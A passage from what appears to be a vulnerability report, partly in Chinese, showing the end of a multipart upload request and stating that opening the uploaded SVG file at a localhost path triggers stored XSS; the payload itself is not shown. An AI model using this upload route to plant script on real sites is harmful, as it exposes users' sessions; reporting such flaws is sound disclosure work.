Content-Disposition: form-data; name="handle"

  
upload

------WebKitFormBoundary9cau8eWCxPD8xFV6

Content-Disposition: form-data; name="type"

  
local

------WebKitFormBoundary9cau8eWCxPD8xFV6

Content-Disposition: form-data; name="isStamped"

  
0

------WebKitFormBoundary9cau8eWCxPD8xFV6--
```

  
访问文件时候会成功触发XSS

```
http://localhost/uploads/files/20250217/1095defe8f917fab.svg
```


